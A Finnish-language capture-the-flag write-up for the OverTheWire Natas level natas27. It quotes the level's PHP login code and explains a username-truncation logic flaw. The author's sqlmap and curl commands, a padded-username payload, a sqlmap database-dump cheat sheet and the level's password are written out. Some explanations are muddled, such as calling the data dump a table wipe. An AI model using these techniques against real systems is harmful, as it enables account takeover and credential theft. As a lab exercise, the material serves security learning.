# natas27 - START HERE;

natas27 ; u3RRffXjysjgwFU6b9xa23i6prmUsYne 




syötin ainakin pari tunnusta mutta "admin:admin" sanoi : User admin was created!
kokeilin toista "testi.testi" - User testi was created!

syötin uudestaan (admin:admin) niin kirjautui sisään ja tuli tervetuloa - odotellaan n. 5 min (view-source mukaan) - pitäisi tyhjentää tietokannan - voiko se koskea näitä luoneita tunnuksia?

Eli periaatteessa tässä etusivun kirjautumisessa tapahtuu niin että joutuu luoda uuden tunnuksen ikään kuin (admin;admin) sitten pääsee kirjauttuu sisään ja tulee se tervetuloa admin. 5 min päästä se poistaa tämän luoneen tunnuksen tietokannasta ja huomoina tarkistettu se ei ainakaan tallenna evästeitä.

view-source.html:ssä on osa jotakin SQL komentoja koodattu tässä PHP funktoin määrityksen sisällä kuitenkin.





## koodin tarkistuksena - START HERE;

Eli käydään lävitse view-source.html:ssä mitä tässä koodissa oikein puhuttaan vaikka onkin SQL:ää tässä mainittu tosi osassa funktioiden alla.


Tässä , jos pyyntö sisältää käyttäjätunnus ja salasansa , kun lähetämme lomakkeen ja kuin täyttäisi uuden tunnuksensa.

```
if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas27', '<censored>');
    mysqli_select_db($link, 'natas27');


    if(validUser($link,$_REQUEST["username"])) {
        //user exists, check creds
        if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
            echo "Here is your data:<br>";
            $data=dumpData($link,$_REQUEST["username"]);
            print htmlentities($data);
        }
        else{
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }
    }
    else {
        //user doesn't exist
        if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
    }

    mysqli_close($link);
} else {
?>
```


Seuraavaksi, yhteys ottaa tietokantaansa ja ohjelma tarkastaa käytäjätunnuksensa kelvolliseksi käyttämällä tätä funktiota `validUser()`.

```
function validUser($link,$usr){

    $user=mysqli_real_escape_string($link, $usr);

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}
```


Jos mikäli tunnistetieto (käyttäjätunus ja salasnsa) nini tarkistettaan funktiossa `checkCredentials` alla.

```
function checkCredentials($link,$usr,$pass){

    $user=mysqli_real_escape_string($link, $usr);
    $password=mysqli_real_escape_string($link, $pass);

    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysqli_query($link, $query);
    if(mysqli_num_rows($res) > 0){
        return True;
    }
    return False;
}

```


seuraavaksi, jos tunnusket täsmää ja kelvollisia niin sitten kaikki tunnukset dumpataan eli `dumpData` funktiolla - eli kuin tyhjentää sen tunnuksen pois alta.

```
function dumpData($link,$usr){

    $user=mysqli_real_escape_string($link, trim($usr));

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row,true);
            }
        }
    }
    return False;
}

```


Viimeisenä jos ei , niin voi luoda uuden käyttäjäntunnuksens ja salasansa - jos ei ole olemassa mikäli on dumpattu/tyhjennetty tietokannan alta - `createUser` - funktio.

```
function createUser($link, $usr, $pass){

    if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
    $user=mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password=mysqli_real_escape_string($link, substr($pass, 0, 64));

    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysqli_query($link, $query);
    if(mysqli_affected_rows($link) > 0){
        return True;
    }
    return False;
}

```


🔎 Tilannekuva

Nyt yritettään pitää saada tietoa käyttäjästä natas28, mutta ei tiedetä tiedä **natas28** salasanaansa. Suoraa SQL-injektiota ei voi tehdä, koska kaikki syötteet suojataan `mysql_real_escape_string()`-funktiolla. Tästä syystä perinteinen SQL-injektio ei onnistu.


💡 Vihjeet ja havaintoja
1. checkCredentials() tarkistaa käyttäjätunnuksen JA salasanan.
Eli jos syötät väärän salasanan, saat virheilmoituksen.

2. validUser() ja dumpData() tarkistavat VAIN käyttäjätunnuksen.
Eli kun joku käyttäjätunnus löytyy, niin voit saada sen tiedot näkyviin — vaikka salasana olisi väärä.

3. Taulussa ei ole määritelty käyttäjänimen ainutlaatuisuutta!
Usein username on asetettu UNIQUE, mutta tässä ei ole. Tämä on kriittinen.

4. Käyttäjänimen ja salasanan sarakkeet ovat VARCHAR(64)
Jos laitat yli 64 merkkiä pitkän merkkijonon, MySQL leikkaa ylimääräiset pois (ellei strict mode ole käytössä, mikä tässä oletetaan olevan pois päältä).


🎯 Hyökkäysidea: Hyödynnä käyttäjänimen leikkaantumista

Koska username-kenttä on VARCHAR(64) ja ei ole ainutkertainen, voit luoda uuden käyttäjänimen, joka alkaa samalla tavalla kuin natas28, mutta jatkuu ylimääräisillä merkeillä yli 64 merkkiä.


- Esim, käyttäjänimellä: `natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
- Salasana osuus: `natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Eli näissä molemmissa siis kun syötetään tietokantaan, MySQL **truncaa** (truncate table) sen 64 merkin kohdalla.

Jos tekisi  salasantarkistuksensa checkCredentials()-funktiolla, niin sinun syötteesi ei ole täsmälleen sama kuin tietokannassa oleva, joten salasanatarkistus epäonnistuu. Ei haittaa!

Kun taas käytät dumpData()-funktiota, joka hakee tietoja pelkän käyttäjänimen perusteella, niin jos teet uuden käyttäjän jolla on username = natas28 ja se tallentuu truncattuna samalla tavalla kuin oikea natas28, saatat osua oikean käyttäjän tietoihin — koska MySQL:n vertaillessa username-kenttää se näkee leikatun version.

- `mysql_real_escape_string()` - estää injektiot, mutta ei loogisia virheitä.
- Käyttämällä yli 64 merkkiä pitkää käyttäjänimeä, joka alkaa natas28, voit huijata järjestelmää dumpaamaan toisen käyttäjän tietoja.

---

## testejä

Tässä loin (admin:admin) tunnuksensa ja kirjauttumisella, että onnistui ja pitihän se testat toimiiko ja ensimmäiset testit.




Koodin tarkistuksensa kuitenkin ideana syöttäisi **natas28** - perässä jotakin arvoja joka täsmentyy tietokannan **VARCHAR (64)** merkintään niin pitkä AAA...~~ jotakin ja salasana saa keksiä suoraan päästä just (test) - joka on helpp muisti pelisääntö





Tässä (go away hacker) - tarkoitta kokeilin ihan normi tunnuksella (natas28: <randompassword>) - niin enterin jälkeen se antoi tällaisen koska se ei päästä helpolla. 



Tämä on sama kuin aikaisempi, just mutta kokeiltua ideana syöttäisi **natas28** ja perässä jotakin sanaa pitkä AAAA ja kokeilin kirjauttumisen testin



--

## Kali linux - chekkausta

natas27 ; u3RRffXjysjgwFU6b9xa23i6prmUsYne 

Eli koodin tarkistuksensa ja tuosta päättyessä antoikin vihjeitä, mutta nyt testataan kali linux ympäristön vuoro tarkistaa tämän harjoitus level.

Kokeillaan sqlmap - että mitä se tarjoaa ja onkin pieni sql injektio osuus. Huomoina sqlmap ei pysty automaattisesti hyödyntämään tätä tiettyä haavoittuvuutta (looginen bugi, ei injektio), koska se ei ymmärrä tietokannan kenttärajojen aiheuttamia leikkauksia tai autentikoinnin logiikkaa. Tässä ei ole SQL-injektiota.


Tuloksesta ei antanut mitään mutta jotakin ainakin.. testastiin varmuuden vuoksi ja hyvä harjoituksen testaus

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas27.natas.labs.overthewire.org/" --auth-type=Basic --auth-cred="natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne" --batch --risk=3 --level=5
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:26:14 /2025-08-08/

[19:26:16] [INFO] testing connection to the target URL
[19:26:16] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:26:17] [INFO] testing if the target URL content is stable
[19:26:17] [INFO] target URL content is stable
[19:26:17] [INFO] testing if parameter 'User-Agent' is dynamic
[19:26:17] [WARNING] parameter 'User-Agent' does not appear to be dynamic
[19:26:17] [WARNING] heuristic (basic) test shows that parameter 'User-Agent' might not be injectable
[19:26:17] [INFO] testing for SQL injection on parameter 'User-Agent'
......
.........
...........
[19:41:34] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[19:41:41] [INFO] testing 'Generic inline queries'
[19:41:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[19:41:56] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
[19:42:10] [WARNING] parameter 'Host' does not seem to be injectable
[19:42:10] [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[19:42:10] [WARNING] your sqlmap version is outdated

[*] ending @ 19:42:10 /2025-08-08/
```

Pientä curl testausta ja normi checkausta:
```
┌──(kali㉿kali)-[~]
└─$ curl -I -H "Referer: http://natas28.natas.labs.overthewire.org/" -u "natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne" http://natas27.natas.labs.overthewire.org/
HTTP/1.1 200 OK
Date: Fri, 08 Aug 2025 16:44:43 GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Type: text/html; charset=UTF-8

┌──(kali㉿kali)-[~]
└─$ curl -u natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne \
-d "username=test&password=test" \
http://natas27.natas.labs.overthewire.org/

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "u3RRffXjysjgwFU6b9xa23i6prmUsYne" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
User test was created!<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

**LISÄTIETOA:**
Haettu netistä lisätietoa ja apua, mutta tämä on tekoälyn apua. Tämä komento lähettää POST pyynnön ja tekee sellaisen arvauksensa.

Sovellus ei tarkistanut onko "samanniminen" käyttäjä jo olemassa, koska käyttäjänimi ei ole UNIQUE. Koska se käyttää VARCHAR(64) kenttää, MySQL leikkaa käyttäjänimen automaattisesti 64 merkkiin. Tuloksena on toinen käyttäjä, jonka truncattu käyttäjänimi on täsmälleen natas28, eli täsmää olemassa olevaan oikeaan käyttäjään.


Lyhyesti sanottuna on logiikkavirhe, ei SQL injektio ja onkin hyödyntämistä käyttäytymistä.

1. Lähetit lomakkeeseen yli 64-merkkisen käyttäjänimen, joka alkaa natas28.
2. MySQL katkaisi nimen 64 merkkiin, jolloin siitä tuli vain natas28, sama kuin olemassa oleva käyttäjä.
3. Koska käyttäjänimet eivät ole uniikkeja, tietokantaan lisättiin toinen natas28.
4. Nyt voit kirjautua sisään omalla salasanallasi käyttäen nimeä natas28.
5. Sovellus näyttää sinulle tiedot (ja salasanan) oikealta natas28-käyttäjältä, koska se ei tarkista salasanaa kunnolla.


```
┌──(kali㉿kali)-[~]
└─$ curl -u natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne \
-d "username=natas28$(python3 -c 'print("A"*100)')" \
-d "password=abc123" \
http://natas27.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "u3RRffXjysjgwFU6b9xa23i6prmUsYne" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
User natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was created!<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


Tämä osuus on kuin pieni sqlmap **sql injektion** lunttilappu osuus jos mikäli haluttaisiin tarkistaa toi natas27:sen tietokannan olemassaolon ja jos on niin mitä seuraavaksi pitäisi tehdä ja saada selville. 

```
testausta löytyykö injketiopiste

sqlmap -u "http://natas27.natas.labs.overthewire.org/" \
--auth-type Basic --auth-cred "natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne" \
--data "username=test&password=test" \
--batch --level=1 --risk=1 --identify-waf


- jos injkeito löytyy niin lisätään tietokanna nimen: --dbs
- jos tietokanta löytyy sitten lisätään perään: --tables -D <tietokannan_nimi>
- ja viimeisenä dumppaus ulos jos löytyy ja lisätään perään: --dump -D <tietokanta> -T users
```

## Testaus osa ja ratkaisu osa

Ratkaisu kohteena on siis käyttää se VARCHAR (64) merkkiä kokonaan ja jotenkin purkkaa se natas28 salasanansa ulos

1. Käytettään esim. käyttäjänimenä natas28 + paljon satunnaista täytettä (A, B, tms.) → esim. natas28AAAAAAAAAA...
2. Kun pituus ylittää 64 merkkiä, MySQL katkaisee sen tarkalleen 64 merkkiin.
3. Jos tämä katkaistu nimi vastaa täsmälleen oikeaa natas28, tietokanta ajattelee, että "tässä on toinen natas28".
4. Koska salasanaa ei tarkisteta kunnolla (tai käytetään väärää tarkistusta dumpissa), voit kirjautua sisään omalla salasanallasi ja saat näkyviin oikean natas28-käyttäjän salasanan.


kokeilin tunnuksella kuin (admin:admin) niin syötin tahallaan väärän salasanansa, niin antoi virallisen error - eli "admin" käyttäjälle syötetty väärä salasansa.

sama pätee tässä ei ole puhdas **ei ole puhdas SQL-injektio**, vaan perustuu **merkkijonon pituusrajoitukseen ja tietokannan käyttäytymiseen.**

TÄMÄ ON VAIN JOTAKIN TUNNUSTA MITÄ TESTAILIN JA ERILLISENÄ TUNNUKSENA:
```
Kokeillaan nyt: natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
salasana: natas

natas28           !
natas
```

Loin jonkun tunnarinsa natas28 (yksitoista välilyönti siis space) ja salasansa natas - se antoi "GO away hacker" - sekä testattu natas28AAAAAAAA..... jotakin ja syötin tahallaan väärä salasansa niin kertoi jotakin.

Toiseksi huomioina jos yrittää esim. luoda alkuun (test:test), sitten arvella (natas28:<randomPassword>) - niin ei toimi, koska voi olla tämä natas27 taso on vähä parantunut - että jouduttaan leikkiä vaihteeksi burp suite uusiksi ja tai jos python koodilla niin sekin voi toimia.


Tosiaan tämä osuus eli PHP-koodissa ja tämä tarkoittaa:

- Jos käyttäjänimessä on välilyöntejä alussa tai lopussa, sinut torpataan heti.
- `trim($user)` - poistaa alusta ja alopussa välilyöntejä
- jos alkuperäisen `$usr` siis käyttäjä ei ole sama kuin trimmattu versio sitten toistaa ton käskynsä. 

Tosiaan testattuna **natas28** ja 56 välilyöntiä --> tämä ehto tarkoittaa laukeaakseen, koska loppuu lisäntyvien välilyönnit poistetaan `trim()` - funktiolla.

```
if($usr != trim($usr)) {
    echo "Go away hacker";
    return False;
}
```

Tätä jotenkin loin ekaksi (test:test) tunnuksen sitten kirjautuu ekana sillä sisään ja onnistui, ja luodaan uusi tunnus (natas28 jolla on useita välilyöntiä) ja perään x , sekä salasana vaikappa "test" - luoneen jälkeen just tästä selaimesta peruuttaa taakse päin niin se tunnus pysyy ennallaan ja kumoaa perässä ton x sanan ja syöttää just se "test" salasansa niin sitten pääsee ja saada selvitettyä natas28 level salasansa.

se piti olla --> natas28 (57 välilyöntiä) ja peräsin perään x kirjaimen että tiedän mihin asti se päättyy
```
┌──(kali㉿kali)-[~]
└─$ echo -n "natas28" && printf ' %.0s' {1..57} && echo -n "x"
natas28                                                         x                                                                                 
```


## ratkaisu osa

Muutama testauksen jälkeen jouduin tarkistaa Youtube:stä miten ne on testattu, ja vertailtu muiden bloggien julkaisua, mutta sitten alkoi toimia ja se on ihme kyllä. Aikaisempien toisten ohjeita saattoi olla yli vuoden-pari-muutaman vuoden vanhoja.

Tässä viimeiset kuvat ovat just ne onnistumiset. Tätä jotenkin loin ekaksi (test:test) tunnuksen sitten kirjautuu ekana sillä sisään ja onnistui, ja luodaan uusi tunnus (natas28 jolla on useita välilyöntiä) ja perään x

Tässä se pitää olla --> natas28 (57 välilyöntiä) ja peräsin perään x kirjaimen että tiedän mihin asti se päättyy:
```
┌──(kali㉿kali)-[~]
└─$ echo -n "natas28" && printf ' %.0s' {1..57} && echo -n "x"
natas28                                                         x 
```

Eli natas28 (muutama kymmensiä välilyöntiä) ja x - sekä salasana vaikappa "test" - luoneen jälkeen just tästä selaimesta peruuttaa taakse päin niin se tunnus pysyy ennallaan ja kumoaa perässä ton **x kirjain**




syöttää just se "test" salasansa niin sitten pääsee ja saada selvitettyä natas28 level salasansa.



